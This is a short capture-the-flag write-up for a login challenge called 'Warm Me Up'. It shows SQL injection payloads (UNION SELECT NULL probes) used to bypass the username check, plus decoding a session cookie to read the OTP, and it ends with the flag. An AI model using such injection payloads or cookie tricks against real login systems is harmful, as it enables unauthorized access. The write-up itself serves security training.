

# Warm Me Up

## Description

> The most secure login page you will ever come across.

## Write-Up

We have a simple login with an additionnal field : `otp`.



As we do multiple tries, we can see that the `username` field is vulnerable to an **SQL Injection** with two columns in the user table. For example with this payload :

```
' UNION SELECT NULL--
```

This payload will give **Internal Error**, the same thing as with three `NULL` columns. But with two columns:

```
' UNION SELECT NULL,NULL--
```

It gives you a **Login Failed**.

**Note:** the previous payload, as the table contains two columns, it returns `1`. So, the server interprets it as there is a username.

From there, the password can be a random field, an to get the `otp`, we get it from decoding the session cookie given after accessing the website :

```
eyJvdHAiOiJGVzRJWDBJVUZGOU5ZQzIwIn0.ZSLvmQ.L6UI1v_v3H5EX1EiDbwQEaGpfV8
```

```
{"otp":"FW4IX0IUFF9NYC20"}H»æ@¾”#[ïÜ~D_Q"¼¡©}_
```

So, as we use the following creds :

```
username : ' UNION SELECT NULL,NULL--
password : admin
otp : FW4IX0IUFF9NYC20
```

We get the flag

## Flag

BHFlagY{5a3ec65e30864dd56f20595f31ded2bb}